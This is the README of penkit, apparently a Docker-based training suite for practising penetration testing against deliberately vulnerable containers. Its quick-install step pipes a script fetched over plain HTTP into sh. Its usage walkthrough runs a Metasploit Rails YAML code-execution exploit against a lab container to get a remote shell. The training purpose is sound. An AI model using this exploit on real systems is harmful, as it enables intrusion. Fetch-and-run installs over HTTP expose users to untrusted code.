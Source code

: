 # penkit

[![Gem Version](https://badge.fury.io/rb/penkit.svg)](https://badge.fury.io/rb/penkit)
[![build status](https://gitlab.com/penkit/penkit/badges/master/build.svg)](https://gitlab.com/penkit/penkit/commits/master)
[![coverage report](https://gitlab.com/penkit/penkit/badges/master/coverage.svg)](https://gitlab.com/penkit/penkit/commits/master)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](http://penkit.io/legal/LICENSE.txt)

Penkit is a software suite designed to hone your pentesting skills. Using the power and flexibility of docker, we are able to build controlled, isolated environments for reproducing virtually any software vulnerability out there. Penkit has two major components: our strictly maintained image catalog and our full featured CLI application.

## Getting started

Penkit has only a couple of requirements and three different install options.

### Prerequisites

- Linux or OSX (x86-64)
- Docker 1.13+
- Ruby and rubygems (optional)

### Installation

#### Option 1: Quick install

Try our easy install script. ([view source](http://get.penkit.io))

```bash
$ wget -qO- http://get.penkit.io | sh
```

#### Option 2: Ruby gem

You can install the penkit gem directly from [rubygems.org](https://rubygems.org/gems/penkit):

```bash
$ gem install penkit
$ penkit help
```

#### Option 3: Docker image

If you don't have ruby, then you can use the penkit Docker image:

```bash
$ docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock penkit/cli help
```

#### Option 4: Bash wrapper

If docker commands are a hassle to you, just download our bash wrapper:

```bash
$ wget -O /usr/local/bin/penkit https://gitlab.com/penkit/penkit/raw/master/scripts/penkit
$ chmod +x penkit
$ penkit  help
```

### Usage

Take penkit for a spin with this quick rails exploit:

#### 1. Start a vulnerable rails container
```bash
$ penkit start rails:3.2.9
```

#### 2. Run exploit against the container using metasploit
```bash
$ penkit metasploit -x " \
  use exploit/multi/http/rails_xml_yaml_code_exec; \
  set RHOST rails; \
  set RPORT 8080; \
  run"
```

#### 3. Run shell commands on the compromised rails container
```bash
whoami
pwd
ls
```

#### 4. Stop the remote shell and metasploit
```bash
^ctrl-C
exit
```

#### 5. Clean up our penkit containers
```bash
$ penkit rm
```

#### 6. Learn more with integrated help
```bash
$ penkit help
```

## Contributing

Penkit is open-source, and we welcome contributions!

- [Open an issue](https://gitlab.com/penkit/penkit/issues)
- [Create a fork](https://gitlab.com/penkit/penkit/forks/new)

### Development

Local development requires ruby and bundler:

```bash
$ git clone git@gitlab.com:your_user/penkit penkit
$ cd penkit
$ bundle install
$ bundle exec penkit help
```

### Testing

Most of the tests for the Penkit CLI are ran through rspec:

```bash
$ bundle exec rspec
```

## License

Penkit is released under the [MIT License](LICENSE).

